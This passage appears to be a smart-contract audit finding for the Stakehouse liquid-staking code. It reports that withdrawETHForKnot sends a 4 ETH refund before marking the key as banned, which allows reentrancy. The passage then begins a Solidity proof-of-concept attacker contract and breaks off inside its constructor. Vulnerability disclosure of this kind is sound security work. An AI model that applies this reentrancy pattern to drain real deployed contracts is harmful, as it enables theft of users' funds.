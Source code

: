 ```solidity
```

note the section:

```solidity
// refund 4 ether from smart wallet to node runner's EOA
IOwnableSmartWallet(associatedSmartWallet).rawExecute(
	_recipient,
	"",
	4 ether
);

// update the mapping
bannedBLSPublicKeys[_blsPublicKeyOfKnot] = associatedSmartWallet;
```

if the _recipient is a smart contract, it can re-enter the withdraw function to withdraw another 4 ETH multiple times before the public key is banned.

As shown in our running POC.

We need to add the import first: 

```solidity
import { MockAccountManager } from "../../contracts/testing/stakehouse/MockAccountManager.sol";
```

We can add the smart contract below:

https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L12

```solidity
interface IManager {
    function registerBLSPublicKeys(
        bytes[] calldata _blsPublicKeys,
        bytes[] calldata _blsSignatures,
        address _eoaRepresentative
    ) external payable;
    function withdrawETHForKnot(
        address _recipient, 
        bytes calldata _blsPublicKeyOfKnot
    ) external;
}

contract NonEOARepresentative {

    address manager;
    bool state;

    constructor(address _manager) payable {

        bytes[] memory publicKeys = new bytes[](2);
        publicKeys[0] = "publicKeys1";
        publicKeys[1] = "publicKeys2";

        bytes[] memory signature = new bytes[](2);
        signature[0] = "signature1";
        signature[1] = "signature2";

        IManager(_manager).registerBLSPublicKeys{value: 8 ether}(
            publicKeys,
            signature,
            address(this)
        );

        manager = _manager;

```